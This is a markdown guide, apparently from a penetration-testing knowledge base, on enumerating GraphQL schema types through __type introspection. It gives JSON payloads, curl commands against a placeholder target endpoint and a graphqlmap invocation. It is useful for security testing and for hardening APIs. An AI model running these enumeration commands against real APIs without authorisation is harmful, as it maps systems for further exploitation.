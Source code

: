 ```yaml
---
title: Master GraphQL Type Enumeration Techniques
description: Learn to enumerate GraphQL type definitions using introspection queries
  for fields and enums.
keywords:
- GraphQL
- type enumeration
- introspection
- __type query
- schema mapping
- enum extraction
- API vulnerability
- field enumeration
- GraphQL injection
---
```


# Enumerate Types Definition

## Context

This guide aims to equip you with the skills needed to enumerate and extract detailed GraphQL type definitions. By leveraging introspection queries or injection attacks, you will learn how to uncover the fields, scalar types, and enum values defined in a GraphQL schema. Prior understanding of GraphQL schema structure, query and mutation syntax, and basic GraphQL injection techniques is assumed.

## Theory

### GraphQL Type System and Introspection

GraphQL types define the structure of the data available through the API. These include objects, scalars, enums, and interfaces. The powerful feature of GraphQL introspection allows clients to query the server for its schema metadata, which includes all type definitions and their fields. When introspection is enabled, it can become a vulnerability, as attackers can enumerate types, leading to disclosure of sensitive schema details.

### The __type Introspection Query

The `__type` is a specific introspection field in GraphQL used to return metadata about a particular type. Attackers can craft queries targeting `__type` to enumerate all fields, scalar types, and enum values for any named type. A query using `__type` returns a JSON object that describes the type's fields, input types, and possible enum values, revealing the underlying schema structure to the attacker.

### Type Enumeration Attack Surface

Many APIs assume that only trustworthy clients will use introspection features. This assumption can expose schema details to attackers when introspection is not appropriately restricted. The lack of such restrictions presents a weakness, allowing attackers to map the entire GraphQL schema, which can be helpful for further exploitation activities.

## Practice

### Enumerate Object Type Fields via __type

To enumerate all fields of an object type such as "User," a crafted query using the `__type` introspection field is needed. 

- **Payload**

    ```json
    {
        "query": "{ __type(name: \"User\") { name fields { name type { name kind } } } }"
    }
    ```

    This query is designed to retrieve all fields and their types for the "User" object.

- **Command**

    ```bash
    curl -X POST -H "Content-Type: application/json" --data '{ "query": "{ __type(name: \"User\") { name fields { name type { name kind } } } }" }' http://target/graphql
    ```

    Execute the above command to send the introspection query to the GraphQL endpoint.

**Outcome**: The attacker obtains a comprehensive list of all fields and their types for the given object type, revealing structural information about the API's user model.

### Enumerate Scalar Types and Enum Values

To extract possible values of an enumeration type, such as "Status," a similar introspection query can be used.

- **Payload**

    ```json
    {
        "query": "{ __type(name: \"Status\") { name kind enumValues { name description } } }"
    }
    ```

    This query targets the "Status" enum to extract all potential values and their accompanying descriptions.

- **Command**

    ```bash
    curl -X POST -H "Content-Type: application/json" --data '{ "query": "{ __type(name: \"Status\") { name kind enumValues { name description } } }" }' http://target/graphql
    ```

    Send this crafted query to the GraphQL endpoint to retrieve the enum values.

**Outcome**: The attacker gains access to all possible values and descriptions for the specified enum type, providing insight into the permissible state values used within the API.

### Automated Type Enumeration with GraphQL Tools

Automating the type enumeration process can significantly expedite the task and reduce human error. Utilizing tools like `graphqlmap`, entire schemas can be introspected and enumerated effectively.

- **Command**

    ```bash
    python3 graphqlmap.py -u http://target/graphql --introspect
    ```

Run this command to use `graphqlmap` for automated extraction of type definitions, fields, and enums.

**Outcome**: Automation aids in quickly uncovering complete schema details, facilitating further exploitation with minimal manual intervention.

## Tools

- **curl**
- **graphqlmap**
